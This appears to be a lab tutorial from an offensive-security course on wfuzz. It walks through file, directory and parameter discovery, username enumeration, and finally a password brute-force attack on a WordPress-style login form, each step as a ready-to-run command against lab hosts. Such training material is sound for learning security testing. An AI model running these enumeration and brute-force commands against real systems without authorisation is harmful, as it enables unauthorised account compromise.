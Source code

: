 
wfuzz --help

```console
export URL="http://target:80/FUZZ"
echo $URL
```

our environment variable exported, let's start fuzzing some files in the web root. We'll run wfuzz with -c to display color output, -z file to specify the input source, and --hc to avoid non-existent and erroneous responses.

```console
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
```

To find directories using Wfuzz, let's re-export our environment variable with a trailing forward slash. We'll also update the list we're using in our Wfuzz command from raft-medium-files.txt to raft-medium-directories.txt.

```console
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"
```

Further, we want to make sure when performing parameter discovery that we utilize the best wordlist we can. For this purpose, we have chosen a wordlist titled burp-parameter-names.txt, which contains approximately 2,588 possible parameter names.

```console
export URL="http://target:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"
```

We will use the /usr/share/seclists/Usernames/cirt-default-usernames.txt wordlist for our purposes here. In our Kali Linux VM, let's point Wfuzz at the http://target:80/index.php?fpv=FUZZ endpoint.

```console
wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404 http://offsecwp:80/index.php?fpv=FUZZ
```

We quickly notice that there are a lot of erroneous responses with our parameter values (specifically the 301 response code). To exclude these erroneous responses from our Wfuzz output, we will also add the --hc option with a value of a 301.

```console
wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ
```

To begin targeting for our brute force attack, we'll provide the -d parameter to specifically fuzz the POST data of the endpoint provided in the below listing. We will also need to supply a value such as pwd=FUZZ for this to work properly. Lastly, we will make use of the --hc parameter with a value of 404 to avoid erroneous responses. In this case, a 404 message indicates a "not found" response.

```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 200,404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"
```
